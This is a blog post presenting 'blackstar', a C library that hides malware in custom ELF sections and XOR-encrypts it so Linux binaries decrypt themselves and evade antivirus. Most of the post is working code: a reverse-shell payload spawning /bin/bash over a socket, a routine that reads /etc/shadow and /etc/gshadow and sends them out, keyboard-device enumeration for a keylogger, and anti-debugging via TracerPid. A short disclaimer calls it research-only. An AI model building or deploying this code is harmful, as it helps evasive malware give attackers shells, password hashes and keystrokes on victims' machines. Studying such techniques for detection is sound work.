





If you want to hide malicious code from Anti-Virus softwares, there is a wide array of techniques you can pick from. In this work, I tried to abuse a widely known feature of the **ELF** file format to encrypt some code, and then let the binary rewrite itself in order to decrypt the code I wanted to hide in the first place. My work is based on a [PoC's team project](https://github.com/PocInnovation) which itself is inpired from a [whitepaper](http://papermint-designs.com/dmo-blog/2016-01-pocrypt-a-proof-of-concept-for-dynamically-decrypt-linux-binaries) that explains how to use **ELF**'s `SECTION`s to hide malicious code. In this post, I am going to introduce PoC's implementation approach and show off the improvements I have added for more genericity and scalability. I will also discuss some short-term perpectives for those who are interested in the subject. Feel free to fork my work and send me your feedbacks.

> 💥
> The source code I am sharing here is only meant for research 
> and educational purposes. I am not liable for anything you will do with it :)~

## ELF : **E**xecutable and **L**inkable **F**ile - the starting point

ELF is the file format used to define compiled programs on Linux. There is a lot of documentation available on this file format, since it has been around for a very long time -- languages like Rust, C, C++ or Haskell compile their code to ELF files on Linux.

> 🛈 An ELF file is made up of a header, followed by the file's executable data, which is splitted into sections

The ELF format has been in used since 1999 -- in a lot of Unix-based systems, like Linux -- and is made up of a header, followed by the file's executable data which is splitted into sections.


As one can see from the image above, the executable is divided into *Sections* with different levels of permission. Sections are a very practical way to split, find, smartly encrypt compiled code and evade anti-virus softwares. Sections size can be queried using `size -dA`:



In my work, I used sections as the first class abstraction level for the source code. This allows me to smartly encrypt the content for evasion purposes.

> 💡 I used sections as the first class abstraction level for the source code. This allows me to smartly encrypt the content for evasion purposes.

## State of the Art ~ WhiteComet

As I said above, this project is based on a [whitepaper](http://papermint-designs.com/dmo-blog/2016-01-pocrypt-a-proof-of-concept-for-dynamically-decrypt-linux-binaries) which has been around since 2016. [PoC](https://github.com/PocInnovation) has also done some research on the matter and shared some code -- that I partly used as a starting point for this project.

As a Proof of Concept, WhiteComet works pretty well. It indeed demonstrates how to use ELF sections to hide malicious code. However, the implementation is not easy to replicate because of lacks of documentation and genericity.

> 🗒 This project is based on a [whitepaper](http://papermint-designs.com/dmo-blog/2016-01-pocrypt-a-proof-of-concept-for-dynamically-decrypt-linux-binaries) which has been around since 2016.

For instance, PoC's iplementation depends on [fixed-size values](https://github.com/PoCInnovation/Whitecomet-Research/blob/master/PolyMetamorphic/Linux-ELF/include/PoCrypt.h#L44) -- which makes it hard to adapt or to scale. This is my main improvement axis for more genericity and scalability. In the following lines, I am going to expose concreteley how I processed and discuss the short-term perspectives.

## Delimiting the Code into Sections

Thanks to a GCC compiler feature, I used `attributes` to create new sections at compile time. This is really helpful because one can easily have aliases at hand for a given executable section and manipulate it *at will*. As in WhiteComet, I achieved this project using simple macros, like so:

```c
/// Encryption key's section name
#define ELF_KEY (".st_peter")

/// Code to obfuscate should be held in this section
#define ELF_CODE (".banshee")

/// Boolean telling us if the code is encrypted
#define ELF_BOOL (".isalive")

/// simple macro to define a section (GCC dependent)
#define SECTION(x) __attribute__((section(x)))

/// adding pieces of data to sections ELF_BOOL and ELF_KEY
static SECTION(ELF_BOOL) bool is_encrypted = true;
static SECTION(ELF_KEY) char key[256];
```

Then I used the labeled sections to decorate the functions I want to bind in:

```c
SECTION(ELF_CODE)
void setup_payload(settings_t *settings)
{
    char * const argv[] = {"/bin/bash", NULL};

    settings->sockfd = setup_socket(settings);
    if (settings->sockfd == -1)
        return;
    printf("[+] Starting revshell.\n");
    dup2(settings->sockfd, 0);
    dup2(settings->sockfd, 1);
    dup2(settings->sockfd, 2);
    execve("/bin/bash", argv, environ);
}
```

As you can tell, the malware that we want obfuscate is a [reverse shell](https://fr.wikipedia.org/wiki/Reverse_shell) for now, but we could do more.

## Improving the developper's environnment : my toolset library

Since I am conducting this experiment on ELF files and need programs to rewrite themselves, an important part of my contribution is a toolset library, called `blackstar`, than enables to :
- find offsets in a binary
- encrypt and decrypt data
- implement custom algorithms

Also, the `blackstar` library will contain simple but usable encryption algorithms.

The library is meant to be opensource so anyone could easily port to other programs, debug or document. In following paragraphs, I am presenting the main features of the library. I will discuss the usage later in the post.

### bl_find_section : searching section by name

This function will look for an ELF section using the section's name:

```c
Elf64_Shdr *bl_find_section(void *hdr, char const *name)
{
    char *_name = NULL;
    Elf64_Ehdr *elf_header = (Elf64_Ehdr *)hdr;
    Elf64_Shdr *sym_header = (Elf64_Shdr *)(hdr + elf_header->e_shoff);
    Elf64_Shdr *symb_table = &sym_header[elf_header->e_shstrndx];
    const char *s_tableptr = hdr + symb_table->sh_offset;

    for (int i = 0; i < elf_header->e_shnum; i++) {

        // retrieving the name of the section, at the offset specified
        // by the symbol header table
        _name = (char *)(s_tableptr + sym_header[i].sh_name);

        // comparing our current section's name with the name of
        // the section we want to find
        if (!strcmp(_name, name)) {
            return &sym_header[i];
        }
    }
    return NULL;
}
```

The function takes a pointer `hdr` as a parameter, which is the head of our whole binary file dumped into memory.

This means we will need a function to read our file.

### bl_read : reading binary files

`bl_read` is used to read binary files

```c
/**
 * \typedef struct star_s blackstar_t
 * \brief main object to handle ELF files
 *
 * \param path ELF executable filepath
 * \param content_len ELF's file content length
 * \param content ELF's complete content
 */
typedef struct star_s {
    char *path;
    size_t content_len;
    unsigned char *content;
} blackstar_t;

blackstar_t *bl_read(char const *filepath)
{
    struct stat st = {0};
    int fd = 0;
    blackstar_t *bstar = malloc(sizeof(blackstar_t));

    if (!filepath || !bstar)
        return NULL;
    fd = open(filepath, O_RDONLY);
    if (stat(filepath, &st) < 0 || fd == -1)
        return NULL;
    bstar->path = strdup(filepath);
    bstar->content_len = st.st_size;
    bstar->content = malloc(sizeof(unsigned char *) * (st.st_size + 1));
    if (!bstar->content || read(fd, bstar->content, st.st_size) < 0)
        return NULL;
    bstar->content[st.st_size] = 0;
    close(fd);
    return bstar;
}
```

Keen observers can see that the path to the binary file is saved. This is because the binary file will be rewritten later on, after data encryption.

### bl_sync : rewriting the encrypted data

```c
int bl_sync(blackstar_t *bstar)
{
    int fd = 0;

    // unlink() removes a specific file, passed as parameter
    if (!bstar || !bstar->path || unlink(bstar->path) < 0)
        return 1;

    // create or truncate the file in the filepath
    fd = open(bstar->path, O_CREAT | O_TRUNC | O_RDWR, S_IRWXU);
    if (fd == -1 || !bstar->content || write(fd, bstar->content,
    bstar->content_len) < 0)
        return 1;

    close(fd);
    return 0;
}
```

`bl_sync`, `bl_read`, `bl_find_section` are my basic tools to do polymorphic ELF file handling.

To let the user set its own encryption algorithm, the library provides some utilities that I am presenting below :

### Applying encryption

`bl_naive_crypter` will be the heart of our library. It finds the section to edit, read its content, then calls the crypter function.

```c
/**
 * \typedef void (*crypter_t)(unsigned char *ptr, size_t ptr_size, char *key,
 * size_t key_size)
 * \brief function pointer encrypting ELF content with a key
 *
 * \param ptr pointer to edit
 * \param ptr_size pointer's length
 * \param key string which will encrypt ptr
 * \param key_size key's length
 */
typedef void (*crypter_t)(unsigned char *, size_t, char *, size_t);

/**
 * \fn void bl_naive_crypter(blackstar_t *bstar, const char *tname, const char *kname,
 crypter_t cr)
 * \brief calls cryting function without checking if boolean section is set or not.
 *
 * \param bstar an object holding data for the ELF file you want to use
 * \param tname target's section name
 * \param kname key's section name
 * \param cr crypting function pointer
 */

void bl_naive_crypter(blackstar_t *, const char *, const char *, crypter_t);
```

For simplicity, the library also offers a standard function - `bl_encrypt_section` - to encrypt sections

### bl_encrypt_section : section encryption function

```c
int bl_encrypt_section(blackstar_t *bstar, const char *code_sname,
const char *key_sname, const char *bool_sname, crypter_t crypter, char *key)
{
    Elf64_Shdr *code_section = bl_find_section(bstar->content, code_sname);
    Elf64_Shdr *bool_section = bl_find_section(bstar->content, bool_sname);
    Elf64_Shdr *key_section = bl_find_section(bstar->content, key_sname);
    size_t code_len = 0;
    unsigned char *ptr = NULL;

    if (!code_section || !bool_section || !key_section)
        return 1;

    // Setting key to key section
    ptr = bstar->content + key_section->sh_offset;
    bl_edit_section(ptr, key_section->sh_size, key);

    // Encrypting code section with key section,
    // then key section with code section
    bl_naive_crypter(bstar, code_sname, key_sname, crypter);
    bl_naive_crypter(bstar, key_sname, code_sname, crypter);

    // Setting is_encrypted boolean to true
    // bl_change_section_wperm() changes write permissions for a section
    // using mprotect()
    ptr = bstar->content + bool_section->sh_offset;
    bl_change_section_wperm(ptr, bool_section->sh_size, true);
    for (size_t i = 0; i < bool_section->sh_size; i++)
        ptr[i] = 1;
    bl_change_section_wperm(ptr, bool_section->sh_size, false);

    // syncronising the binary
    bl_sync(bstar);
    return 0;
}
```

### Usage 

The following lines of code explain how to use our library to write a very simple program that encrypts a section:

```c
void encrypt_program(char const *binary_path, char *key,
char *ksection, char *bsection, char *csection)
{
    blackstar_t *bstar = NULL;

    bstar = bl_read(binary_path);
    if (!bstar)
        return;
    bl_encrypt_section(bstar, csection, ksection, bsection, &xor_crypt, key);

    // freeing from memory bstar
    bl_destroy(bstar);
}
```

A limitation of this approach is that we will need to use an encryption method that goes both ways. Here, we use `XOR` encryption as the default encryption method because it allows us to use the same algorithm to encrypt and decrypt our compiled code.

To improve this approach, one might want to use something else, as it is very easy to brute-force `XOR` -- by finding repeating offsets in the code for example.

This makes it almost usable, but we will need to think about a way to support more complicated encryption methods later on.

## Testing our Polymorphic capabilites

We can try to compile, encrypt, then execute our program, and check the differences:





It is worth mentionning that if we try to check our compiled version, it has by default its KEY section set to zeroes. However, when we decrypt our program, we create a new random key, so that the encryption key changes everytime we try to encrypt the program.

Here is a diff showing the differences between a decrypted binary, and the one that was just compiled:

```diff
1434c1434
<  78e8 010101                               ...
---
>  78e8 000000                               ...
1436,1483c1436,1483
<  7900 00000000 00000000 00000000 00000000  ................
<  7910 00000000 00000000 00000000 00000000  ................
<  7920 00000000 00000000 00000000 00000000  ................

        ...

<  7be0 00000000 00000000 00000000 00000000  ................
<  7bf0 00000000 00000000 00000000 00000000  ................
---
>  7900 aad4244f 6168c2e2 8a638c16 bd74ae13  ..$Oah...c...t..
>  7910 b805dec4 dbb23a61 5f200244 6e3f1418  ......:a_ .Dn?..
>  7920 13386774 a129562b 8ce24149 56ef5c0e  .8gt.)V+..AIV.\.

        ...

>  7be0 76c605ab b6b041d3 1cbbc2c9 d157cc9e  v.....A......W..
>  7bf0 a0a58763 98cc91c0 7ce42ac8 3d7e4943  ...c....|.*.=~IC
```

We can also see that the offset `78e8` is only filled with zeroes, because the program is decrypted. Indeed, it is the content of the `ELF_BOOL` section.

## Improving the Malware

Now that we have managed to encrypt and decrypt parts of our program, we can try to improve the program's capabilites. The first thing we can do is sending critical information to the user. This is a good test to see if we can easily add new data to obfuscate.

Like before, we will mark our function with the `SECTION(ELF_CODE)` to specify it should be encrypted.

```c
SECTION(ELF_CODE)
void send_file(settings_t *s, char *str)
{
    int fd = open(str, O_RDONLY);
    struct stat st;
    char *buffer = NULL;

    if (fd == -1 || stat(str, &st) < 0)
        return;
    buffer = malloc(sizeof(char) * (st.st_size + 1));
    buffer[st.st_size] = 0;
    read(fd, buffer, st.st_size);
    close(fd);
    dprintf(s->sockfd, "[%s]:%s\n", str, buffer);
    free(buffer);
}

SECTION(ELF_CODE)
void send_important_files(settings_t *s)
{
    char *files[] = {
        "/etc/shadow",
        "/etc/gshadow",
        "/etc/gshadow-",
        "/etc/timezone",
        NULL,
    };

    for (int i = 0; files[i] != NULL; i++)
        send_file(s, files[i]);
}
```

and done ! Easy as that. If we recompile our program, and run our crypting method on it, we will find any part of the code in that section encrypted.

Now, let's try to add a keylogger. A keylogger is a program that logs keystrokes from the user, without him knowning. This can be very useful if you want to get someone's password, for instance. But how do we do that ?

### Building a Key-Logger

In Unix systems, everything is a file. Images, programs, directories, you name it. That means that device handlers are _also_ files, we just need to find where the file actually is. On most linux installations, it is located in `/dev/input/`



Here, we can see that any keyboard's "file" ends with a `kbd`, we can just open this directory, and filter our entries, looking for that pattern:

```c
SECTION(ELF_CODE)
int is_keyboard(const struct dirent *file)
{
    size_t len = strlen(file->d_name);

    return len > 3
    && file->d_name[len - 3] == 'k'
    && file->d_name[len - 2] == 'b'
    && file->d_name[len - 1] == 'd';
}

SECTION(ELF_CODE)
int *get_keyboards_fds(int *nb_fd)
{
    struct dirent **devices = NULL;
    int nb_paths = scandir("/dev/input/by-path/", &devices, &is_keyboard, &alphasort);
    char *rpath = NULL;
    int *result = NULL;

    if (nb_paths < 0 ||
    !(result = malloc(sizeof(int) * (nb_paths + 1))) ||
    !(rpath = malloc(sizeof(char) * (BUFFER_SIZE+ 1))))
        return NULL;
    for (int i = 0; i < nb_paths; i++) {
        // Calling realpath() because we found symbolic links in `/dev/input/by-path`
        rpath = realpath(devices[i]->d_name, rpath);
        result[i] = open(rpath, O_RDONLY);
    }
    free(rpath);
    result[nb_paths] = -1;
    *nb_fd = nb_paths;
    return result;
}
```

As you can see from here, we return an array of file descriptors, incrementing `nb_fd` when we find a new file descriptor. This will be useful if we have multiple keyboards plugged to the computer.

We will use `select` to check if a keyboard has been used in the last seconds, and then just simply read it as if it was a file.

### Simple debugger evasion

We can also build a [simple function](https://github.com/bogdzn/blackstar/blob/main/sources/setup.c#L85) that will set-up all of our anti-debugging.

Here, you can see showcased a simple technique, where we look inside `/proc/self/status`, and look for a valid `TracerPid`. This technique is quite effective, until the researcher tries to disassemble the program and remove the call to this function.



## Final thoughts

This project was quite interesting, mainly to learn in depth how ELF files work, and how we can do funny things with them. However, I still don't think this technique is usable at scale - research has been improved though, and somebody will hopefully iterate over the work I have done to improve this solution.

An interesting approach would be to build a custom Binary Packer using this library. Packing a program is a much more common practice for malware distribution and mitigation.

> 👷 An interesting approach would be to build a custom Binary Packer using this library. Packing a program is a much more common practice for malware distribution and mitigation.

The most well-known packer for Linux and Windows programs is the UPX packer, but it does not allow programs to rewrite themselves, like we currently do. This should be an interesting problem to solve.

